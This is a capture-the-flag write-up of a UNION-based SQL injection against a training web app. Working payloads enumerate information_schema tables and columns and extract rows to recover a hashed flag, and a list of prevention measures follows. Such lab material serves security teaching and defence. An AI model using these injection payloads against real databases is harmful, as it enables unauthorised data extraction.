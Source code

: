 SQL Injection Exploit Guide

1. Determine the Number of Columns

Start by testing if there is one column in the table using the following SQL injection:

42 UNION SELECT null

If the response is "The used SELECT statements have a different number of columns," it indicates that there are more columns.

Next, test for two columns:

42 UNION SELECT null, null;

This query returns results so it confirms that there are two columns.

2. Retrieve Table Schema and Types

Now, let's find out the schema and types of the tables:

42 UNION SELECT table_schema, table_type FROM information_schema.tables

From this query, we find that the schemas with base tables (that holds data) are: Member_Brute_Force, Member_Sql_Injection, Member_guestbook, and Member_images.

3. Identify Table Names in Each Schema

To find the table names in each schema

42 UNION SELECT TABLE_SCHEMA, TABLE_NAME FROM information_schema.columns

If we exclude the results related to "information_schema" which is not a base table data we have : Member_Brute_Force/db_default, Member_Sql_Injection/users, Member_guestbook/guestbook, Member_images/list_images, and Member_survey/vote_dbs.

In this case, we will focus on the list_images table in the Member_images schema.

4. Find Column Names in Tables

To retrieve the column names in each table, use:

42 UNION SELECT table_name, column_name FROM information_schema.columns

5. Extract Data from Member_images.list_images Table

Check for "id" and "url" columns in the Member_images.list_images table:

42 UNION SELECT id, url FROM Member_images.list_images

Next, check for "title" and "comment" columns in the same table:

42 UNION SELECT title, comment FROM Member_images.list_images

6. Decode the Final Flag

The last query returns:

ID: 42 UNION SELECT title, comment FROM Member_images.list_images 
First name: Hack me?
Surname: If you read this, use MD5 decoding (lowercase) and then SHA256 to obtain the flag: 1928e8083cf461a51303633093573c46

Decoding the MD5 hash "1928e8083cf461a51303633093573c46" gives you "albatroz". Hashing "albatroz" with SHA256 yields the final flag:

f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

Prevention:
1. Use Prepared Statements: Always use prepared statements or parameterized queries to separate SQL code from data.
2. Employ ORM Libraries: Use Object-Relational Mapping (ORM) tools to handle SQL interactions securely.
3. Escape User Inputs: Properly escape any user input before using it in SQL queries if prepared statements are not an option.
4. Validate and Sanitize Inputs: Validate user inputs against expected formats and sanitize to remove harmful characters.
5. Limit Database Privileges: Use the principle of least privilege for database access; restrict permissions as much as possible.
6. Error Handling: Display generic error messages to users and log detailed errors securely.
7. Regular Updates: Keep your DBMS and libraries up-to-date to protect against known vulnerabilities.

Ressources:
https://www.mssqltips.com/sqlservertutorial/196/information-schema-tables/
https://www.mssqltips.com/sqlservertutorial/183/information-schema-columns/
https://10015.io/tools/md5-encrypt-decrypt
https://10015.io/tools/sha256-encrypt-decrypt